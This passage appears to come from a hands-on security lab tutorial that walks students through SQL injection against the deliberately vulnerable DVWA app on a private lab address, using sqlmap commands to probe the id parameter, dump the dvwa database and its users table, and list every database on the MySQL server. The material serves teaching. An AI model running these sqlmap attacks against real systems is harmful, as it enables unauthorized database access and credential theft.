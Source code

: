 {% include lab-image.html image='dvwa-sqlmap-example-url.png' %}

We see that the URL is `http://192.168.56.102/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#`


### Probe the URL for vulnerabilities

From your Kali shell with the exported `COOKIE` variable, run the following command. When prompted for input, accept the default options.

```shell
sqlmap -u "http://192.168.56.102/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="$COOKIE" 
```

`sqlmap` will remember for future commands that it already discovered that the `id` argument is vulnerable to an injection attack.


### Dump the current database

Now that `sqlmap` has learned about the `id` argument vulnerability, we can dump the underlying database. The `--dump` flag will dump only the database implicitly used by the vulnerable route--in this case, that is the `dvwa` database. All tables on that database will be dumped. Dump that database with the following command:

```shell
sqlmap -u "http://192.168.56.102/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="$COOKIE" --dump
```

You can press `Enter` whenever sqlmap prompts you for input.

{% include lab_question.html question='What is Gordon Brown's plaintext password?' %}

### Dump a specific table

Instead of dumping all tables on a database, you can specify specific databases and tables with the database (`-D`) and table (`-T`) flags. For the "users" table in this "dvwa" database, this would look like this:

```shell
sqlmap -u "http://192.168.56.102/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="$COOKIE" --dump -D dvwa -T users
```

### Dump all databases in the MySQL Server

We can dump more than just the `dvwa` database on this MySQL server. First, list the other databases hosted on this server:

```shell
sqlmap -u "http://192.168.56.102/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="$COOKIE" --dbs
```

This shows the following 7 databases:

```
[*] dvwa
[*] information_schema
[*] metasploit
[*] mysql
[*] owasp10
[*] tikiwiki
[*] tikiwiki195
```
